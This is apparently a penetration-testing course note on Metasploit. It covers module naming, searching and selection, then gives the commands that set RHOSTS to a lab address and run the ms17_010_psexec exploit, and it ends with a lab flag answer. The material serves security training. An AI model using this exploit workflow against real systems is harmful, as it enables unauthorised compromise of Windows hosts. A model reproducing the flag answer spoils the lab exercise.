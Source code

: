 As we mentioned previously, Metasploit `modules` are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild. The `exploit` category consists of so-called proof-of-concept (`POCs`) that can be used to exploit existing vulnerabilities in a largely automated manner.

#### Syntax
```shell-session
<No.> <type>/<os>/<service>/<name>
```

#### Example
```shell-session
794   exploit/windows/ftp/scriptftp_list
```

#### Index No.
The `No.` tag will be displayed to select the exploit we want afterward during our searches. We will see how helpful the `No.` tag can be to select specific Metasploit modules later.

#### Type
The `Type` tag is the first level of segregation between the Metasploit `modules`. Looking at this field, we can tell what the piece of code for this module will accomplish.

|**Type**|**Description**|
|---|---|
|`Auxiliary`|Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.|
|`Encoders`|Ensure that payloads are intact to their destination.|
|`Exploits`|Defined as modules that exploit a vulnerability that will allow for the payload delivery.|
|`NOPs`|(No Operation code) Keep the payload sizes consistent across exploit attempts.|
|`Payloads`|Code runs remotely and calls back to the attacker machine to establish a connection (or shell).|
|`Plugins`|Additional scripts can be integrated within an assessment with `msfconsole` and coexist.|
|`Post`|Wide array of modules to gather information, pivot deeper, etc.|

#### OS
The `OS` tag specifies which operating system and architecture the module was created for. Naturally, different operating systems require different code to be run to get the desired results.

#### Service
The `Service` tag refers to the vulnerable service that is running on the target machine. For some modules, such as the `auxiliary` or `post` ones, this tag can refer to a more general activity such as `gather`, referring to the gathering of credentials, for example.

#### Name
Finally, the `Name` tag explains the actual action that can be performed using this module created for a specific purpose.

## Searching for Modules

#### MSF - Search Function
```shell-session
msf6 > help search
```

#### MSF - Searching for EternalRomance (Exemple)
```shell-session
msf6 > search eternalromance
```

```shell-session
msf6 > search eternalromance type:exploit
```

We can also make our search a bit more coarse and reduce it to one category of services. For example, for the CVE, we could specify the year (`cve:<year>`), the platform Windows (`platform:<os>`), the type of module we want to find (`type:<auxiliary/exploit/post>`), the reliability rank (`rank:<rank>`), and the search name (`<pattern>`). This would reduce our results to only those that match all of the above.
#### MSF - Specific Search
```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```

## Module Selection

```shell-session
msf6 > search ms17_010
...

msf6 > use <no.>
```

#### MSF - Module Information
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > info
```

#### MSF - Target Specification
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
```
In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

#### MSF - Permanent Target Specification
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40
```

#### MSF - Exploit Execution
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

### Questions

Same exploit as above: `HTB{MSF-W1nD0w5-3xPL01t4t10n}`
